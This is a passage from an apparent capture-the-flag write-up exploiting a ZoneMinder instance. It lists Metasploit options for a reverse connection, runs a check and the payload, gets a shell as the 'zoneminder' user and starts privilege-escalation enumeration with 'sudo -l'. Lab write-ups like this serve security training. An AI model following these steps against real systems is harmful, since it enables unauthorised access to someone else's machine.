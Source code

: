 I will then input all of the commands below to configure the exploit

```bash
# on attacker machine

set srvport 2223

set srvhost 127.0.0.1

set lhost tun0

set lport 4444

set fetch_srvport 2223

set rhosts 127.0.0.1

set rport 2222

check
```

Your check results should show the following:

![Untitled](Untitled%2012.png)

Now, lets run the payload

![Untitled](Untitled%2013.png)

I will run `getuid` and find that the session is running as the `zoneminder` user.

I will run `shell` to drop into a shell as the `zoneminder` user

I will then perform more local enumeration as this user. One of the first checks I always perform is `sudo -l` and in this case, it appears `zoneminder` can run some commands as root with no password
